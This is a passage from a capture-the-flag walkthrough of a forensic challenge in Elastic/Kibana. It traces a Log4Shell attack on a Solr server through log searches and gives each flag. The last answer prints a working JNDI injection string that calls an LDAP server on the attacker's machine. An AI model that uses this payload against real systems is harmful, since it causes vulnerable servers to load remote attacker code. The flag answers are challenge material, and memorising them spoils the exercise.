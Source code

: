 #### 21. From the previous three questions, you may remember a famous java vulnerability. What is it?

[Log4Shell](https://en.wikipedia.org/wiki/Log4Shell){:target="_blank" rel="noopener"}.


> Flag: Log4Shell

#### 22. What is the entire log file path of the "solr" application?

`🖥️ Kibana`

- The easy way to get the full path is by using kibana search bar with elastic common schema, we know the application name is solr, lets search using this in the search bar `log.file.path :  *solr*`, make sure to select filebeat as index.

![image](../assets/img/elastic-case/44.png)

> Flag: /var/solr/logs/solr.log

#### 23. What is the path that is vulnerable to log4j?

`🖥️ Kibana`

- we know the log path that all logs are stored in, lets dig deeper to see all details, click into the arrow to see log details 

![image](../assets/img/elastic-case/45.png)

- In message you can see the path that is vulnerable.

![image](../assets/img/elastic-case/46.png)

> Flag: /admin/cores

#### 24. What is the GET request parameter used to deliver log4j payload?

`🖥️ Kibana`

- From the same message of previous log you can see the GET request. 

![image](../assets/img/elastic-case/47.png)

> Flag: foo

#### 25. What is the JNDI payload that is connected to the LDAP port?

`🖥️ Kibana`

- From the same message or you can use `log.file.path :/var/solr/logs/solr.log ` we can see the jndi payload that are connected back to the ldap server in attacker machine, or you can search using `log.file.path :  "/var/solr/logs/solr.log" and message: *jndi*`, will get the same.

![image](../assets/img/elastic-case/48.png)

> flag: {foo=${jndi:ldap://192.168.1.10:1389/Exploit}}


##### ---------------------- I really hope you found this challenge and walkthrough useful.----------------------